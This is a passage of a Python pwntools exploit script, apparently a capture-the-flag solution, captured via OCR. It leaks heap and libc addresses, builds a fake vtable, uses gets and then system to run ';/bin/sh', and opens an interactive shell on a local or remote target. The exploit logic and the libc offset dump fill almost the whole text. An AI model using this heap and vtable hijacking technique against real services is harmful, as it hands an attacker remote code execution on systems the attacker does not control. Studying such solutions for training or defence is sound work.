     binsh = libc_base+0x160a24
    gets = libc_base+0x64cd0
    fake_vtable = heap_leak+0x20

    log.success("heap chunk found at "+hex(heap_leak&0xffffffff))
    log.success("libc base found at "+hex(libc_base&0xffffffff))
    log.success("system@libc found at "+hex(system&0xffffffff))
    log.success("binsh@libc found at "+hex(binsh&0xffffffff))
    log.success("gets@libc found at "+hex(gets&0xffffffff))
    log.success("fake_vtable crafted at "+hex(fake_vtable&0xffffffff)+"!")

    ## add fake vptr to box0 through box2
    add_item(2,fake_vtable)

    ## allocate box3
    open_box(3,8)
    
    ## write gets@libc to box3.data_set[0] which is fake_vtable+0x8
    add_item(3,gets)  

    '''
    rh0gue@vexillum:~/libc-database$ ./dump local-6190cf8cf76a91fe996318cbd6d8c4180f11c115
    offset___libc_start_main_ret = 0x19a83
    offset_system = 0x00040190
    offset_dup2 = 0x000db590
    offset_read = 0x000dabd0
    offset_write = 0x000dac50
    offset_str_bin_sh = 0x160a24
    gets 00064cd0 
    '''
    #pause()
    ## add item to trigger gets(set_vec[0]);
    r.sendline("2")
    r.recvuntil(": ")
    r.sendline("0")
    r.recvuntil(": ")
    r.sendline(p32(0xb00bface)) # whatever

    payload = p32(fake_vtable) # preserve fake vtable
    payload += ";/bin/sh\0"
    r.sendline(payload)

    ## write system@libc to box3.data_set[0] which is fake_vtable+0x8
    add_item(3,system)    
    
    #pause()
    ## add item to trigger system(set_vec[0]) = system("<addr_of_system>;/bin/sh\0");  
    r.sendline("2")
    r.recvuntil(": ")
    r.sendline("0")
    r.recvuntil(": ")
    r.sendline(p32(0xb00bface)) # whatever
    
    r.interactive()
if __name__ == "__main__":
    log.info("For remote: %s HOST PORT" % sys.argv[0])
    if len(sys.argv) > 1:
        r = remote(sys.argv[1], int(sys.argv[2]))